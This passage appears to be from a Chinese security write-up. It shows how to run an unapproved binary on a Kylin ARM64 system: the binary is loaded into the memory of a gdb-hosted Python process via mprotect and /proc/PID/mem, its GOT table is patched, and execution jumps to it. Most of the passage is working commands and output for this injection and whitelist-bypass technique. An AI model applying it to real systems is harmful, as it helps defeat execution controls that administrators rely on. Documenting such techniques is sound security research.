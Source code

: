 一条路通了，缕清总体思路：**以gdb启动的交互式python进程为载体，利用mprotect修改内存段权限，dd加载test2、httc_test (4)程序，gdb修got表，最后用gdb将pc指到注入的main函数即可。**具体操作步骤如下：

gdb调试启动交互式python，然后python对自己mprotect搞出一大段rwx，gdb把python断下

```C
user1@kylin-GW-001M1A-FTF:~$ which python
/usr/bin/python
user1@kylin-GW-001M1A-FTF:~$ gdb -q /usr/bin/python
Reading symbols from /usr/bin/python...(no debugging symbols found)...done.
(gdb) r
Starting program: /usr/bin/python
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/aarch64-linux-gnu/libthread_db.so.1".
Python 2.7.12 (default, Mar  6 2020, 01:18:13)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import ctypes
>>> a = ctypes.cdll.LoadLibrary("/lib/aarch64-linux-gnu/libc-2.23.so")
>>> a.mprotect(0x0400000,0x0200000,7)
0
>>>
Program received signal SIGINT, Interrupt.
0x0000007fb7f03648 in select () from /lib/aarch64-linux-gnu/libc.so.6
```

然后用过`ps`和`/proc/pid/maps`，当然也可以通过python代码，获得python进程的pid，以及libc基址，然后注入：

```
dd if=/tmp/httc_test (4) of=/proc/32087/mem seek=4194304 bs=1
```

使用如下代码获得gdb中修复got表的指令，就是gdb写内存：

```python
from pwn import *

test = ELF("./httc_test (4)")
libc = ELF("./libc-2.23.so")
libc.address = 0x7fb7e43000

for i in test.got:
    try    :  print("set *(long long *)(%s) = %s" % (hex(test.got[i]), hex(libc.symbols[i])))
    except :  pass
```

写8字节内存需要强制类型转换，最终结果如下：

```gdb
set *(long long *)(0x414038) = 0x7fb7eb5430
set *(long long *)(0x4140a0) = 0x7fb7eaa448
set *(long long *)(0x414058) = 0x7fb7ebb3c0
set *(long long *)(0x414020) = 0x7fb7ea1948
set *(long long *)(0x414050) = 0x7fb7eb92e0
set *(long long *)(0x414088) = 0x7fb7e758b0
set *(long long *)(0x414048) = 0x7fb7e62840
set *(long long *)(0x4140a8) = 0x7fb7e8e310
set *(long long *)(0x4140b8) = 0x7fb7ea2108
set *(long long *)(0x414030) = 0x7fb7ea23d0
set *(long long *)(0x414008) = 0x7fb7eb9b00
set *(long long *)(0x414090) = 0x7fb7ea3d88
set *(long long *)(0x414080) = 0x7fb7ea9e80
set *(long long *)(0x414010) = 0x7fb7ea2b68
set *(long long *)(0x414018) = 0x7fb7e8e408
set *(long long *)(0x414068) = 0x7fb7eaa5c8
set *(long long *)(0x414028) = 0x7fb7edf970
set *(long long *)(0x414098) = 0x7fb7ea2820
set *(long long *)(0x4140b0) = 0x7fb7ea5b20
set *(long long *)(0x414000) = 0x7fb7ebb080
```
